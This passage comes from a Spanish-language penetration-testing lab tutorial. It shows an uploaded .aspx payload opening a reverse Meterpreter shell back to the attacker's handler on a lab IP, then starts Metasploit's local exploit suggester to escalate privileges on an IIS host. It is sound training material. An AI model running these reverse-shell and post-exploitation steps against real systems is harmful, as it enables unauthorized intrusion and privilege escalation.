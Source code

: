 ## Ejecutando el payload
Ahora podemos activar el `.aspx`carga útil en el servicio web. Al hacerlo, no se cargará absolutamente nada visualmente en la página, pero mirando hacia atrás a nuestra `multi/handler`módulo, habríamos recibido una conexión. Deberíamos asegurarnos de que nuestra `.aspx`El archivo no contiene HTML, por lo que solo veremos una página web en blanco. Sin embargo, la carga útil se ejecuta en segundo plano de todos modos.

#### MSF - Meterpreter Shell
```js
<...SNIP...>
[*] Started reverse TCP handler on 10.10.14.5:1337 

[*] Sending stage (176195 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.5:1337 -> 10.10.10.5:49157) at 2020-08-28 16:33:14 +0000


meterpreter > getuid

Server username: IIS APPPOOL\Web


meterpreter > 

[*] 10.10.10.5 - Meterpreter session 1 closed.  Reason: Died
```

## Sugerencia de explotación local

Como consejo, existe un módulo llamado `Local Exploit Suggester`. Usaremos este módulo para este ejemplo, ya que el shell Meterpreter aterrizó en el `IIS APPPOOL\Web`usuario, que naturalmente no tiene muchos permisos. Además, ejecutar el `sysinfo` El comando nos muestra que el sistema tiene una arquitectura de x86 bits, lo que nos da aún más razones para confiar en el Local Exploit Suggester.

#### MSF - Searching for Local Exploit Suggester

```js
msf6 > search local exploit suggester

<...SNIP...>
   2375  post/multi/manage/screenshare                                                              normal     No     Multi Manage the screen of the target meterpreter session
   2376  post/multi/recon/local_exploit_suggester                                                   normal     No     Multi Recon Local Exploit Suggester
   2377  post/osx/gather/apfs_encrypted_volume_passwd                              2018-03-21       normal     Yes    Mac OS X APFS Encrypted Volume Password Disclosure

<SNIP>

msf6 exploit(multi/handler) > use 2376
msf6 post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits


msf6 post(multi/recon/local_exploit_suggester) > set session 2

session => 2
```